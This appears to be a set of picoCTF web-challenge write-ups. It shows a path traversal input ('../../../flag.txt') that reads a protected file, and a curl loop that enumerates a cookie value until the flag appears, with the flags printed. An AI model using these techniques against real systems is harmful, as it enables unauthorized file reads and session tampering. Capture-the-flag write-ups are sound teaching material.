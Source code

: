 # SOAP
TBD


# Forbidden Paths
We'll we've got a website with a field to enter files.
![Website overview](../assets/forbidden_paths/1.png)

Let's try the most obvious solution and enter `/flag.txt`
![Not authorized](../assets/forbidden_paths/2.png)

Let's try giving a relative path which goes all the way back like `../../../../../../../../../../../flag.txt`
![The flag](../assets/forbidden_paths/3.png)
(That quite surprisingly worked, and we've got the flag... That was pleasantly easy!)


# cookies
The challenge name strongly hints at something related to cookies.
Apparently there's only one cookie set with the key `name` with value `-1`
![Cookies initially](../assets/cookies/1.png)

We, change the value of the `name` cookie to some other value (say `0`), and we observe a change when refreshed (the form has the state of one which has already been submitted)
![Cookies after change](../assets/cookies/2.png)

We keep trying values from `0` to however many until we get any new interesting value, we write a small bash script which uses `curl` to automate this process for us.
```bash
achu@air ~ % i=0; while true; do curl -sS -L -b "name=$i" http://mercury.picoctf.net:6418/ | grep 'font-size:30px'; i=$((i + 1)); done
            <p style="text-align:center; font-size:30px;"><b>I love snickerdoodle cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love chocolate chip cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love oatmeal raisin cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love gingersnap cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love shortbread cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love peanut butter cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love whoopie pie cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love sugar cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love molasses cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love kiss cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love biscotti cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love butter cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love spritz cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love snowball cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love drop cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love thumbprint cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love pinwheel cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love wafer cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_88acab36}</code></p>
            <p style="text-align:center; font-size:30px;"><b>I love macaroon cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love fortune cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love crinkle cookies!</b></p>
^C                                                                                                                    achu@air ~ % 
```
`-sS` to suppress progress bar (`s`) but to propagate errors if they occur (`S`).
`-L` to follow HTTP redirects.
`-b` for setting cookie.
We pipe this to `grep` which searches for `font-size:30px` (because that's the only `p` container for that specific text size so we can narrow down to just one container with rudimentary tricks instead of proper HTML parsing).
